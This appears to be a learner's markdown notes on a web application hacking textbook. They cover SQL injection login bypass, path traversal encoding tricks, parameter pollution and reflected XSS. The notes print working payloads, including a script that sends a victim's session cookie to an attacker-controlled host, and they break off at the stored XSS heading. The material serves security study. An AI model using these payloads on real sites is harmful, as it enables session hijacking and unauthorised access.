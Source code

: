 ```SELECT * FROM users WHERE username = ‘admin’--’ AND password = ‘foo’```
3. Try double URL encoding:

- Dot — ```%252e```
- Forward slash — ```%252f```
- Backslash — ```%255c```
4. Try overlong UTF-8 Unicode encoding:

- Dot — ```%c0%2e```, ```%e0%40%ae```, ```%c0ae```, and so on
- Forward slash — ```%c0%af```, ```%e0%80%af```, ```%c0%2f```, and so on
- Backslash — ```%c0%5c```, ```%c0%80%5c```, and so on

<!-- Completed till 419 (Injecting into XML Interpreters)-->

---
- HTTP Parameter Pollution: HPP is an attack technique that arises in various contexts and that often applies in the context of HPI attacks

<!-- Completed till 441/914 (Chapter 11 - Attacking Application Logic)-->
## Chapter 11 - Attacking Application Logic
- Page 448 (Insurance based flaw)

<!-- Completed till 467/914 (Chapter 12 - Attacking users -  Cross-Site Scripting-->


<!-- I have made some changes in the page to test it 2 -->


<!-- Started on 11th July after almost a month gap-->


## Chapter - 12 Attacking Users: Cross-Site Scripting

- There are 3 types of XSS vulnerabilities:
1) Reflected
2) Stored
3) DOM-based

**Reflected XSS Vulnerability**:

Common example of this vulnerability is when an application uses dynamic error pages. 

Ex: The behaviour of taking user-supplied input and inserting it into the HTML of the server's response is one of the signatures of reflected XSS vulnerabilities.

*Steps:*
1) A normal user logins to the application and gets a session token from the application
2) Attacker sends a crafted URL of the application to the user to click and make a request to the application with the crafted URL
Attackers URL:
```http://mdsec.net/error/5/Error.ashx?message=<script>var+i=new+Image;+i.src=”http://mdattacker.net/”%2bdocument.cookie;</script>```

3) In the above URL, attacker is exploiting the reflected XSS vulnerability in the message tag which returns the same to the user, as the attacker provided a java script to create a new variable ( var i = new Image) at user end and the varible source is triggering a request to the URL that attacker owns.
Java script:
```var i=new Image; i.src=”http://mdattacker.net/”+document.cookie;```
4) As the java script is from the application, browser uses the same active session token to make a request to attackers URL and the attacker captures the session token and hijacks the active session and proceed with the arbitrary actions as the user.


**Stored XSS Vulnerabilities**
```